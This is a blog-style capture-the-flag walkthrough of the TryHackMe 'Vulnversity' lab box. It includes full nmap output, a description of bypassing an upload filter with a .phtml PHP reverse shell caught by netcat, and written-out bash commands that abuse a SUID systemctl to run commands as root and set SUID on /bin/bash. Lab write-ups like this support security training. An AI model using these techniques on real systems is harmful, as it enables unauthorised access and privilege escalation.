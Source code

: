 ```yaml
---
layout: single
title: Vulnversity - Try Hack Me
excerpt: "Vulnversity is a beginner friendly box from TryHackMe. The initial foothold involves exploiting a poorly secured upload functionality. Privilege Escalation is done via systemctl which has suid bit set"
date: 2022-01-03
classes: wide
header:
  teaser: /assets/images/thm/vulnversity/thumbnail.png
  teaser_home_page: true
  icon: /assets/images/thm-logo.png
categories:
  - tryhackme
  - infosec
tags:  
  - upload vulnerability
  - security
  - pentesting
  - systemctl
---
```


![](/assets/images/thm/vulnversity/1.png)

Hello, today we’re doing Vulnversity from tryhackme.com , an easy machine aimed for beginners. It involved finding an upload form, then exploiting that poorly secured upload form to obtain a shell on the box. For privilege escalation we found out that there is a suid bit set on systemctl , checking gtfobins gives us a method on how to run commands as root.

# Nmap

```bash
# Nmap 7.91 scan initiated Mon Sep 13 22:32:58 2021 as: nmap -sC -sV -oN nmap/vulnversity 10.10.209.201
Nmap scan report for 10.10.209.201
Host is up (0.026s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
| http-vulners-regex: 
|   /main.pl: 
|_    cpe:/a:squid-cache:squid:3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-09-13T22:33:21-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-14T02:33:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 13 22:33:34 2021 -- 1 IP address (1 host up) scanned in 36.66 seconds
```

6 ports open, we'll start enumerating the ftp first then as we go we’ll enumerate each port

# FTP

If anonymous login was enabled, nmap would tell us that, but nmap is weird sometimes and doesn’t and I always like to check it manually anyway.

![](/assets/images/thm/vulnversity/2.png)

Anonymous login wasn't enabled and no public exploits are available for that version. Moving on…

# SMB

![](/assets/images/thm/vulnversity/3.png)

Nothing to see here.. Moving on

# WebServer - 3333

![](/assets/images/thm/vulnversity/4.png)

Nothing on the page is clickable, most likely a static page. Checking the source code..

![](/assets/images/thm/vulnversity/5.png)

Well, nothing.. Starting a gobuster with different extensions

![](/assets/images/thm/vulnversity/6.png)

Let’s check other things while gobuster is running.

Going to /robots.txt

![](/assets/images/thm/vulnversity/7.png)

404, but the server is disclosing which version of apache is the webserver running on. This would definitely be a finding on a pentest :)

Checking what gobuster's doing

![](/assets/images/thm/vulnversity/8.png)

And we get a hit on /internal , let’s check that out.

![](/assets/images/thm/vulnversity/9.png)

Cool, let’s try uploading a php file

Trying to upload a php reverse shell from pentestmonkey

![](/assets/images/thm/vulnversity/10.png)

![](/assets/images/thm/vulnversity/11.png)

![](/assets/images/thm/vulnversity/12.png)

And we get “Extension not allowed” , but what if it doesn’t check for other extensions other than .php? What if we try uploading a .phtml for example? Will that do the thing?

![](/assets/images/thm/vulnversity/13.png)

![](/assets/images/thm/vulnversity/14.png)

![](/assets/images/thm/vulnversity/15.png)

And hey, it says “Success”, now the question is where this file has been uploaded? Let’s try /internal/shell.phtml (also starting a netcat listener in the background)

![](/assets/images/thm/vulnversity/16.png)

![](/assets/images/thm/vulnversity/17.png)

Not here, but if we remember correctly, gobuster found an images directory.

![](/assets/images/thm/vulnversity/18.png)

Unfortunately, we don’t see our shell here, let’s try the root directory

![](/assets/images/thm/vulnversity/19.png)

Not here... Let’s take a step back and gobuster again what’s inside of /internal directory

![](/assets/images/thm/vulnversity/20.png)

And hey, we get a hit right away. Let’s go to /uploads

![](/assets/images/thm/vulnversity/21.png)

We’ve already started the listener in the background, let’s just click it and see if we get a shell back

![](/assets/images/thm/vulnversity/22.png)

We do, I have stabilized the shell, and read user.txt :)

Now, we are www-data which is a service account, how can we escalate our privileges to another user or even root? I've tried simple things like sudo -l and finding suid binaries with find

![](/assets/images/thm/vulnversity/23.png)

There is one thing that really stands out, and that is systemctl, you don’t usually see that having a suid bit set, let’s check it on gtfobins.github.io , maybe we can escalate our privileges with it.

![](/assets/images/thm/vulnversity/24.png)

Well, good news, let’s click on “SUID”

![](/assets/images/thm/vulnversity/25.png)

Let’s try escalating our privileges with it.

Adjusting it a bit, this is what we’re going to run

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

![](/assets/images/thm/vulnversity/26.png)

Let’s modify “ExecStart” in order to set a suid bit on /bin/bash

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
Let’s try this

![](/assets/images/thm/vulnversity/27.png)

Well, that was it, an easy box, aimed for beginners. All I do when I write these write-ups is that I want to show you guys the methodology (if beginners are reading this), my thought process and all that stuff. Hope you've learned something new and I’ll see you next time
